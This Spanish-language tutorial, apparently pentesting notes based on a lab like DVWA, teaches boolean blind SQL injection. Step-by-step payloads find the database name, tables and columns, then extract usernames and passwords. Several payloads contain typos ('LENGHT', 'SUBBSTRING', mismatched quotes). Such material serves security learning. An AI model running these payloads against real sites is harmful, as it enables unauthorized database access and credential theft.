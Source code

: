 # BOOLEAN BLIND SQLI

## **DETERMINAR EL NOMBRE DE LA BASE DE DATOS CON BOOLEAN BLIND SQL INJECTION**

En este caso, al poner una comilla simple \('\) la web no me da error, por lo que no puedo saber si me encuentro ante un SQL Injection.

 **1.** Comprobamos el funcionamiento normal de la aplicacion.

 **2.** Para comprobar si es vulnerable a SQL Injection, lanzo un valor valido y una declaracion Verdadera o, al reves, un valor invalido O una declaracion verdadera.

 **`1 ' AND 1=1 -- -`**

 **`0 ' OR 1=1 -- -`**

 **3.** El problema es que el resultado de la llamada no es visible por lo que va a llevar mucho mas tiempo obtener la informacion necesaria. Existen 3 metodos:

###  **1 Adivinar la base de datos**

 Es el mas complicado ya que debemos saber el nombre de la base de datos o imaginarlo.

 **1.** Vamos a determinar la longitud del nombre de la base de datos:

 **`1 ' AND LENGHT(database())=10 -- -`**

 Como 1 es TRUE, si me da FALSE es que la longitud no es 10. Probamos hasta que obtenemos el numero que corresponde. \(4 por ejemplo\)

**2.** Ahora que sabemos que tiene 4 caracteres, hay que adivinar cual es esa palabra de 4 caracteres.

 **`1 ‘ AND SUBSTRING(database(),1,4) = ’root' -- -`**

 Si pruebo con root y me da FALSE es que no es esa la string que buscamos. Si da TRUE, vamos bien, esa es la Base de Datos que Buscamos.

###  **2 Adivinar letra por letra**

 De esta manera solo vamos a necesitar reiterar hasta conseguir sacar el nombre de la base de datos, pero es 100% efectivo:

 **`1 ‘ AND SUBSTRING(database(),1,1) = ’a' -- -`**

 Habria que enviar ese PAYLOAD pasando por todas las letras del abecedario hasta que nos da TRUE. \(primera letra = d\)

 **`1 ‘ AND SUBBSTRING(database(),2,1) = ’a' -- -`** \(segunda letra = v\)

 **`1 ‘ AND SUBBSTRING(database(),3,1) = ’a' -- -`** \(tercera letra = w\)

 **`1 ‘ AND SUBBSTRING(database(),4,1) = ’a' -- -`** \(cuarta letra = a\)

###  **3 Analizar el valor de la tabla ASCII de la base de datos**

 Este es el metodo mas rapido y sencillo para llegar a nuestro objetivo:

 **`1 ' AND ASCII(SUBSTRING(database(),1,1)) >= 65 AND 1 ' AND ASCII(SUBSTRING(database(),1,1)) <= 122 -- -`**

 Voy reduciendo el rango hasta que vaya dando con la letra correcta. Utilizo prueba y error hasta que dejo un rango muy estrecho para empezar a comparar con iguales.

 Hacemos lo mismo con el resto de letras y obtenemos el nombre de la Base de Datos.

##  **DETERMINAR LAS TABLAS CON BOOLEAN BLIND SQL INJECTION**

 Si recordamos de antes, las tablas las podiamos obtener en un SQL injection de la siguiente manera:

 **`SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1`**

 El anterior Query nos permite obtener el segundo resultado de las tablas de la database\(\)

 Pero ahora lo tengo que obtener analizando los valores ASCII, por tanto, tengo que hacer lo siguiente:

 **`1 ' AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1),1,1) > 10`**

 De esta manera analizo los valores de la primera letra de la TABLA hasta que lo consigo y asi sucesivamente.

##  **DETERMINAR LAS COLUMNAS CON BOOLEAN BLIND SQL INJECTION**

 De la misma manera que hemos hecho antes, monto el PAYLOAD para obtener las letras de la columna.

**`1 ‘ AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='users' limit 3,1),1,1) > 10`**

 Esto se vuelve muy laborioso si no sabemos cual es la estructura de la tabla y no sabemos cual es la columna que queremos.

 con limit 3,1 obtenemos la columna 4 de la tabla.

##  **EXTRAER DATOS DE LA BASE DE DATOS CON BOOLEAN BLIND SQL INJECTION**

 Por ultimo, ya solo quedaria obtener los datos de las columnas.

 **`1 ‘ AND ASCII(SUBSTRING((SELECT user FROM users limit 0,1),1,1) > 10`**

 Ya con todos los datos, solo intentamos sacar el primer CAMPO de la COLUMNA user de la TABLA users

 Como ya hemos hecho con todos los anteriores, toca hacer trabajo de chino extrayendo letra por letra el user.

 **`1 ‘ AND ASCII(SUBSTRING((SELECT password FROM users limit 0,1),1,1) > 10`**

 Despues habria que hacer lo mismo para obtener los datos de la password.

